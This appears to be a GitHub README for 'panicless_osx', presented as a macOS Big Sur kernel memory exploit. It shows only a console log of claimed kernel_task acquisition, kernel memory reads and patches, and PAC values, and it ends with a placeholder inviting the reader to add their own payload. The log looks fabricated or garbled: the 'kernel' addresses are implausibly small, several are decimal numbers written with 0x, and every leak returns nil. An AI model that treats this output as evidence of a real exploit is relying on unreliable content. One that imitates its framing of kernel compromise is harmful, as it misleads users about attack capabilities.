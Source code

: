 # panicless_osx
an arbitrary mem emulation exploit for macOS (Big Sur)

[panicless_osx] lets move in the dangly sketchy exploit
[panicless_osx] getting kernel task.
[panicless_osx] writing argument to dlopen.
[+] done!
[panicless_osx] exploring fake kernel_task abilities
[exploit] kernel_task (os/kern) successful
[+] kernel_task -> 0x1048835
[+] (read/kern) orig where:0x1056768 -> val 16
[+] (read/kern) patched where:0x1056768 -> val -272633096
[+] (read/kern) orig where:0x8192 -> val -272633088
[+] (read/kern) patched where:0x8192 -> val -272633096
[+] (read/kern) READ/MEMORY LEAK 
where 0x4919 ->
info: nil
[+] (read/kern) READ/MEMORY LEAK 
where 0x9015 ->
info: nil
[panicless_osx] fun part here (lets have some fun?)
[+] (read/kern) READ/MEMORY LEAK 
where 0x16777504 ->
info: nil
info -> 8
[+] (read/kern) READ/MEMORY LEAK 
where 0x16778272 ->
info: nil
info -> 16
[+] (read/kern) READ/MEMORY LEAK 
where 0x16777504 ->
info: nil
info -> 16
[+] (read/kern) READ/MEMORY LEAK 
where 0x13443 ->
info: nil
info -> 16
[+] (read/kern) orig where:0x13443 -> val 16
[+] (read/kern) patched where:0x13443 -> val -272633096
[+] (read/kern) READ/MEMORY LEAK 
where 0x13443 ->
info: nil
info -> 16
[+] (read/kern) READ/MEMORY LEAK 
where 0x13443 ->
info: nil
[*] wefun -> 0x16
[*] wefun_pac -> 0x16777215
[+] (read/kern) READ/MEMORY LEAK 
where 0x16777231 ->
info: nil
wefun_pac_orig -> 16
[+] (read/kern) orig where:0x16777231 -> val 16
[+] (read/kern) patched where:0x16777231 -> val -272633096
[+] (read/kern) READ/MEMORY LEAK 
where 0x16777231 ->
info: nil
wefun_pac_patched -> 16
[panicless_osx] ADD YOUR STUFF HERE
Program ended with exit code: 0
